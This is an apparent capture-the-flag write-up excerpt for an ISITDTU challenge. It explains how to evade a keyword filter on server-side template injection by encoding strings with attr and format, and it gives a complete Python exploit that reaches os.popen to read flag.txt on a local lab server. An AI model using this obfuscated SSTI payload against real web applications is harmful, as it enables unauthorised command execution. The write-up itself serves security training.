 - Because they filter most of word that can ssti so we need to use attr and format to generate the string to bypass this.
- Example: `attr("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))` is generate to `cat flag.txt`
- The final exploit script:
``` python
import requests

def gen(p):
    num_c = len(p)

    chrs = ""

    for i in p:
        chrs += str(ord(i)) + ","
    chrs = chrs[:-1]

    return f'attr(\"{"%c"*num_c}\"|format({chrs}))'

# Define the URL and query parameters
url = 'http://localhost:1338'
payload = f'{{()|{gen("__class__")}|{gen("__base__")}|{gen("__subclasses__")}() | {gen("__getitem__")}(367) | {gen("__init__")} | {gen("__globals__") } | {gen("__getitem__")}("o""s")|attr("po""pen")("%c%c%c%c%c%c%c%c%c%c%c%c"|format(99,97,116,32,102,108,97,103,46,116,120,116))|attr("re""ad")()}}'
params = {
    'c': payload
}

# Define the headers
headers = {
    'Host': 'localhost:1338',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close'
}

# Send the GET request
response = requests.get(url, params=params, headers=headers)

# Check the response
if response.status_code == 200:
    print(response.text)
else:
    print(f"Request failed with status code: {response.status_code}")

#ISITDTU{tough_times_create_tough_guys!@@%#0@}
```
Flag: `ISITDTU{tough_times_create_tough_guys!@@%#0@}`
